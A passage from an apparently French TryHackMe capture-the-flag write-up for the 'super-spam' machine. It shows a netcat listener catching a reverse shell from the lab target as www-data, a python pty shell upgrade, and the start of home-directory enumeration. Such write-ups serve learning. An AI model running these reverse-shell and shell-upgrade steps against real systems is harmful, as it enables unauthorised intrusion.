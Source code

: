 ![page](./Task1-11.png) 

On clique sur le lien du reverse shell pour l'activer.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.219.161.
Ncat: Connection from 10.10.219.161:34926.
Linux super-spam 4.15.0-140-generic #144-Ubuntu SMP Fri Mar 19 14:12:35 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 19:28:02 up 13 min,  1 user,  load average: 0.07, 0.55, 0.72
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    :1               19:16   11:10   0.07s  0.07s sh
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@super-spam:/$ ls /home
ls /home
benjamin_blogger  donalddump  lucy_loser  personal  super-spam

bewww-data@super-spam:/$ cd /home/lucy-loser/
www-data@super-spam:/home/lucy_loser$ ls -al
ls -al
```
